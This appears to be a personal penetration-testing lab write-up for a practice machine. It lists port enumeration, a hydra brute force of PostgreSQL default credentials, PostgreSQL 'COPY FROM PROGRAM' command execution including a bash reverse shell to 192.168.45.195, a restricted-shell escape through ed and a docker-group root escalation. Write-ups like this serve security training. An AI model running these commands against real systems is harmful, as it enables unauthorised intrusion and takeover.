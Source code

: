 ### Enumeration
```
IP=192.168.163.60
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,113,8080 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
- 113
	- FreeBSD identd
	- `_auth-owners: nobody`
	- nc -nv $IP 113
		- auth
- 5432
	- PostgreSQL DB 12.3 - 12.4
	- nc -nv $IP 5432
		- postgresql
- 8080
	- WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
	- nc -nv $IP 8080
		- http-alt
- 10000
	- snet-sensor-mgmt
	- nc -nv $IP 10000
		- webmin
### Foothold
- 5432
	- hydra -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt postgres://$IP
		- postgres:postgres
	- psql -h $IP -p 5432 -U postgres -W
		- postgres  allows login
		- `\list
			- postgres
			- template0
			- template1
		- `\du`
			- superuser
		- RCE
			- CREATE TABLE cmd_exec(cmd_output text);
			- COPY cmd_exec FROM PROGRAM 'id';
			- SELECT * FROM cmd_exec;
			- DROP TABLE IF EXISTS cmd_exec;
			- Oneliner:  CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec; DROP TABLE IF EXISTS cmd_exec;
			- nc -lvnp 22
			- RCE: CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/192.168.45.195/22 0>&1"';
				- ![[Pasted image 20240718085300.png]]
- 113
	- ![[Pasted image 20240718080848.png]]
	- ident-user-enum $IP 22 113 5432 8080 10000
	- ssh eleanor@$IP
		- eleanor  -  successful
- 8080
	- Default landing page
		- ![[Pasted image 20240718073603.png]]
	- Versions
		- redmine 4.1.1.stable
			- tried exploit-db 41695
		- scm 1.10.4
	- Login
		- admin:admin
			- requires password change
			- admin123
			- allowed login
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- postgres
	- id
		- uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
	- Have to use eleanor to PE
- eleanor
	- Spawn in with limited shell
		- help
			- GNU bash, version 4.4.12(1)-release (x86_64-pc-linux-gnu)
		- echo $PATH
		- ls /home/eleanor/bin
			- chmod  chown  ed  ls  mv  ping  sleep  touch
		- Check GTFObins for shell
			- ed
				- `ed
				- `!/bin/sh`
			- Then we can edit the path
				- `PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin`
				- Now we can run all the commands
	- id
		- uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
		- video
			- w
				- check what other users are logged in
				- Only eleanor
		- docker
			- docker image ls
				- ![[Pasted image 20240718082639.png]]
			- docker run -it --rm -v /:/mnt IMAGE_NAME chroot /mnt bash
	- sudo -l
		- no sudo commands
	- uname -a
		- Linux peppo 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- ![[Pasted image 20240718082113.png]]
	- Users with console
		- eleanor
	- netstat -ano
		- Active ports
			- nothing new
	- linpeas
		- Possible Exploits
		- Interesting Files
### Credentials
### Lessons Learned